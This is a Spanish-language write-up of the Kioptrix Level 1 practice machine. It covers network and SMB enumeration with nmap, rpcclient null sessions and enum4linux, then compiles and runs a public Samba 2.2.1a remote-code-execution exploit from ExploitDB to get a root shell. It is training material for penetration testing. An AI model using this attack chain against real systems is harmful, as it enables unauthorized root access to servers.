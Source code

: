 # Kioptrix Level 1 - Write-Up

## Enumeración

>Realizaremos un descubrimiento mediante el protocolo ARP para encontrar la dirección IP de la máquina víctima:

```bash
arp-scan -I eth0 --localnet --ignoredups
```
| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -I           | Elegir la interfaz en la que realizar el barrido.  |
| --localnet   | Realizar el barrido en la red local.               |
| --ignoredups | Ignorar posibles duplicados a la hora del barrido. |

![Pasted image 20240729231008](https://github.com/user-attachments/assets/12c86fdd-ab14-4c4a-b28e-8bfd40a3185e)

>Posteriormente realizaremos un escaneo de puertos para obtener los puertos abiertos de la máquina víctima:

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -Pn -n IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -p-           | Escanear todos los puertos de la máquina (65535).  |
| --open   | Mostrar en el resultado solo los puertos abiertos.               |
| --min-rate | Solo enviar paquetes que vayan a una velocidad de x paquetes por segundo. | 
|-sS | Realizar un stealth scan que no concluye el three-way handshake del protocolo TCP enviando un RST en lugar de un ACK. (Agiliza el escaneo)
-vvv | Muestra muy detalladamente el resultado del comando.
-Pn | Dejamos de usar el protocolo de resolución de direcciones ARP para el escaneo. (Agiliza el escaneo)
-n | Dejamos de usar el servicio DNS para resolver la dirección. (Agiliza el escaneo)

[Imagen]

> Haremos un escaneo de puertos con scripts de reconocimiento y versión para obtener más información acerca de los servicios que están corriendo en la máquina:

```bash
nmap -p22,80,111,139,443,1024 -sCV -Pn -n -vvv IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -px           | Escanea solo los puertos o el rango especificado en lugar de la x.  |
| -sCV   | Realizar un escaneo de versión y usar scripts de reconocimiento propios de la utilidad.               |


>Como el puerto 139 está corriendo samba trataremos de enumerar el NBT.

**NetBIOS over TCP/IP** (NBT) permite que aplicaciones basadas en NetBIOS se comuniquen sobre redes TCP/IP. Este protocolo utiliza el puerto TCP 139 para gestionar sesiones NetBIOS, facilitando la conexión y comunicación entre equipos en una red local.

**Samba** es un software libre que implementa el protocolo SMB/CIFS, permitiendo la compartición de archivos e impresoras entre sistemas Unix/Linux y Windows. Samba facilita la interoperabilidad en redes mixtas, soportando tanto NBT (a través del puerto TCP 139) como SMB directamente sobre TCP/IP (a través del puerto TCP 445).

```bash
nbtscan IP
```

[Imagen]

> Ahora trataremos de loggearnos en el rpc mediante una NULL session la cual resulta ser válida en esta máquina.

**RPC** (Remote Procedure Call) es un protocolo que permite a un programa ejecutar procedimientos o subrutinas en otro programa, localizado en una máquina remota, como si estuvieran ejecutándose localmente. Es una técnica esencial en la comunicación entre diferentes sistemas en una red, facilitando la interoperabilidad y distribución de tareas en aplicaciones distribuidas.

```bash
rpcclient -U "" IP
```



| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -U           | Elegir el nombre de usuario que emplearemos para loggearnos. Si está vacío se tratará de una NULL session. |

[Imagen]

> También podemos hacer uso de la herramienta enum4linux para obtener una mayor información acerca de la máquina víctima:

```bash
enum4linux IP
```

## Explotación

>Como la versión de samba que está corriendo es una vulnerable, trataremos de buscar un exploit para esta, la versión la obtuvimos con el último comando realizado:

```bash
searchsploit "Samba 2.2.1a"
```

[Imagen]

> Ahora trataremos de emplear el siguiente exploit que permite realizar una RCE (Remote Code Execution), por lo que tendremos que obtenerlo mediante el siguiente comando:

```bash
searchsploit -m multiple/remote/10.c
```



| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -m           | Elegir la ruta del exploit que quieres descargar de exploitDB.  |

[Imagen]

> Ahora procederemos a compilarlo y darle permisos de ejecución:

```bash
gcc 10.c -o exploit
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -o           | Elegir el nombre y ubicación del script compilado.  |

```bash
chmod +x exploit
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| +x           | Permite brindar al binario de permisos de ejecución.  |


[Imagen]

> Ahora emplearemos el binario siguiendo el uso recomendado por el creador con los parámetros que veamos convenientes y ganaremos acceso como root en la máquina víctima:

```bash
./exploit -v -p 139 -b 0 IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -v           | Permite ver el resultado y la ejecución de forma detallada.  |
-p | Permite elegir el puerto sobre el que se usará el exploit.
-b | Permite seleccionar que distribución de SO (Sistema Operativo) está empleando la máquina víctima.

[Imagenes 2]

> Una vez hecho esto, ya estaría comprometida la máquina. Al haber obtenido directamente una shell como el usuario root no necesitariamos realizar una escalada de privilegios.

